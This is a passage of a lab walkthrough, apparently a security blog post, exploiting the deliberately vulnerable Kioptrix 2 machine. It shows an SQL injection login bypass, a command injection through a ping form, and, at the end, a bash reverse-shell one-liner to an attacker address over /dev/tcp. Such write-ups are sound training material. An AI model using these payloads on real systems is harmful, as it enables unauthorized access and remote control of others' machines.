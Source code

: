 # Exploitation

Web pages are usually a good starting point, and here we find the Remote System Admin Login form:
![LoginForm](https://opalsec.github.io/assets/images/Kioptrix2/LoginForm.png)

## SQL Injection
An obvious first thing to try (doesn't often work in the wild) is to perform SQL Injection:
![SQLi](https://opalsec.github.io/assets/images/Kioptrix2/SQLi.png)

This is the most basic of SQL Injections you can do - we're effectively guessing the syntax of the query that would be run on the SQL server in the back-end, modifying it to include an OR statement that evaluates to TRUE, while also commenting out any following code with the `#` symbol

e.g.

>**Original Query:** "SELECT * FROM user WHERE username = '$username' AND password = '$password'";

>**Modified Query:** "SELECT * FROM user WHERE username = '' OR 1=1#

The modified query would return us everything from the *user* table where a username evaluates to TRUE. In this case, the SQL Injection attempt authenticates us with the web server.

![Pingit.png](https://opalsec.github.io/assets/images/Kioptrix2/Pingit.png)

We're presented with a web page that allows us to invoke a ping command originating from the vulnerable machine. At first glance, it doesn't seem like it'd be useful at all, but in fact, we can leverage a Remote Command Injection vulnerability in this web form:

## Remote Command Injection

In this case, we can verify a Remote Code Injection opportunity by following your input with a system command - i.e. chasing valid input with another command

```
$> 127.0.0.1; whoami

	PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
	64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.011 ms
	64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.017 ms
	64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.017 ms
	
	--- 127.0.0.1 ping statistics ---
	3 packets transmitted, 3 received, 0% packet loss, time 1999ms
	rtt min/avg/max/mdev = 0.011/0.015/0.017/0.003 ms, pipe 2
	apache
```

# Getting an Unprivileged Shell
We can abuse this RCI to get a bash terminal - forwarding a bash terminal through dev\tcp to the attacker, redirecting stdin to std out (0>&1) i.e. forward what comes in from the connection with 192.168.123.128:443 to std out on the terminal on the victim
`$> 127.0.0.1; bash -i >& /dev/tcp/192.168.123.128/443 0>&1`
